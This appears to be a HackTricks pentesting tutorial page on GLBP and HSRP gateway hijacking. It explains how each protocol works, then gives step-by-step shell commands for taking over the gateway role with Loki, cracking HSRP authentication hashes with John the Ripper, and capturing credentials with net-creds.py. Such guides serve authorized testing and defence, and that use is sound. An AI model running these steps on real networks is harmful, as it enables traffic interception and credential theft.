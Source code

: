 # GLBP & HSRP Attacks

{{#include ../../banners/hacktricks-training.md}}


## FHRP Hijacking Overview

### Insights into FHRP

FHRP is designed to provide network robustness by merging multiple routers into a single virtual unit, thereby enhancing load distribution and fault tolerance. Cisco Systems introduced prominent protocols in this suite, such as GLBP and HSRP.

### GLBP Protocol Insights

Cisco's creation, GLBP, functions on the TCP/IP stack, utilizing UDP on port 3222 for communication. Routers in a GLBP group exchange "hello" packets at 3-second intervals. If a router fails to send these packets for 10 seconds, it is presumed to be offline. However, these timers are not fixed and can be modified.

### GLBP Operations and Load Distribution

GLBP stands out by enabling load distribution across routers using a single virtual IP coupled with multiple virtual MAC addresses. In a GLBP group, every router is involved in packet forwarding. Unlike HSRP/VRRP, GLBP offers genuine load balancing through several mechanisms:

- **Host-Dependent Load Balancing:** Maintains consistent AVF MAC address assignment to a host, essential for stable NAT configurations.
- **Round-Robin Load Balancing:** The default approach, alternating AVF MAC address assignment among requesting hosts.
- **Weighted Round-Robin Load Balancing:** Distributes load based on predefined "Weight" metrics.

### Key Components and Terminologies in GLBP

- **AVG (Active Virtual Gateway):** The main router, responsible for allocating MAC addresses to peer routers.
- **AVF (Active Virtual Forwarder):** A router designated to manage network traffic.
- **GLBP Priority:** A metric that determines the AVG, starting at a default of 100 and ranging between 1 and 255.
- **GLBP Weight:** Reflects the current load on a router, adjustable either manually or through Object Tracking.
- **GLBP Virtual IP Address:** Serves as the network's default gateway for all connected devices.

For interactions, GLBP employs the reserved multicast address 224.0.0.102 and UDP port 3222. Routers transmit "hello" packets at 3-second intervals, and are considered non-operational if a packet is missed over a 10-second duration.

### GLBP Attack Mechanism

An attacker can become the primary router by sending a GLBP packet with the highest priority value (255). This can lead to DoS or MITM attacks, allowing traffic interception or redirection.

### Executing a GLBP Attack with Loki

[Loki](https://github.com/raizo62/loki_on_kali) can perform a GLBP attack by injecting a packet with priority and weight set to 255. Pre-attack steps involve gathering information like the virtual IP address, authentication presence, and router priority values using tools like Wireshark.

Attack Steps:

1. Switch to promiscuous mode and enable IP forwarding.
2. Identify the target router and retrieve its IP.
3. Generate a Gratuitous ARP.
4. Inject a malicious GLBP packet, impersonating the AVG.
5. Assign a secondary IP address to the attacker's network interface, mirroring the GLBP virtual IP.
6. Implement SNAT for complete traffic visibility.
7. Adjust routing to ensure continued internet access through the original AVG router.

By following these steps, the attacker positions themselves as a "man in the middle," capable of intercepting and analyzing network traffic, including unencrypted or sensitive data.

For demonstration, here are the required command snippets:

```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

### Passive Explanation of HSRP Hijacking with Command Details

#### Overview of HSRP (Hot Standby Router/Redundancy Protocol)

HSRP is a Cisco proprietary protocol designed for network gateway redundancy. It allows the configuration of multiple physical routers into a single logical unit with a shared IP address. This logical unit is managed by a primary router responsible for directing traffic. Unlike GLBP, which uses metrics like priority and weight for load balancing, HSRP relies on a single active router for traffic management.

#### Roles and Terminology in HSRP

- **HSRP Active Router**: The device acting as the gateway, managing traffic flow.
- **HSRP Standby Router**: A backup router, ready to take over if the active router fails.
- **HSRP Group**: A set of routers collaborating to form a single resilient virtual router.
- **HSRP MAC Address**: A virtual MAC address assigned to the logical router in the HSRP setup.
- **HSRP Virtual IP Address**: The virtual IP address of the HSRP group, acting as the default gateway for connected devices.

#### HSRP Versions

HSRP comes in two versions, HSRPv1 and HSRPv2, differing mainly in group capacity, multicast IP usage, and virtual MAC address structure. The protocol utilizes specific multicast IP addresses for service information exchange, with Hello packets sent every 3 seconds. A router is presumed inactive if no packet is received within a 10-second interval.

#### HSRP Attack Mechanism

HSRP attacks involve forcibly taking over the Active Router's role by injecting a maximum priority value. This can lead to a Man-In-The-Middle (MITM) attack. Essential pre-attack steps include gathering data about the HSRP setup, which can be done using Wireshark for traffic analysis.

#### Steps for Bypassing HSRP Authentication

1. Save the network traffic containing HSRP data as a .pcap file.
   ```shell
   tcpdump -w hsrp_traffic.pcap
   ```
2. Extract MD5 hashes from the .pcap file using hsrp2john.py.
   ```shell
   python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
   ```
3. Crack the MD5 hashes using John the Ripper.
   ```shell
   john --wordlist=mywordlist.txt hsrp_hashes
   ```

**Executing HSRP Injection with Loki**

1. Launch Loki to identify HSRP advertisements.
2. Set the network interface to promiscuous mode and enable IP forwarding.
   ```shell
   sudo ip link set eth0 promisc on
   sudo sysctl -w net.ipv4.ip_forward=1
   ```
3. Use Loki to target the specific router, input the cracked HSRP password, and perform necessary configurations to impersonate the Active Router.
4. After gaining the Active Router role, configure your network interface and IP tables to intercept the legitimate traffic.
   ```shell
   sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
   sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
   ```
5. Modify the routing table to route traffic through the former Active Router.
   ```shell
   sudo route del default
   sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
   ```
6. Use net-creds.py or a similar utility to capture credentials from the intercepted traffic.
   ```shell
   sudo python2 net-creds.py -i eth0
   ```

Executing these steps places the attacker in a position to intercept and manipulate traffic, similar to the procedure for GLBP hijacking. This highlights the vulnerability in redundancy protocols like HSRP and the need for robust security measures.

## References

- [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)


{{#include ../../banners/hacktricks-training.md}}



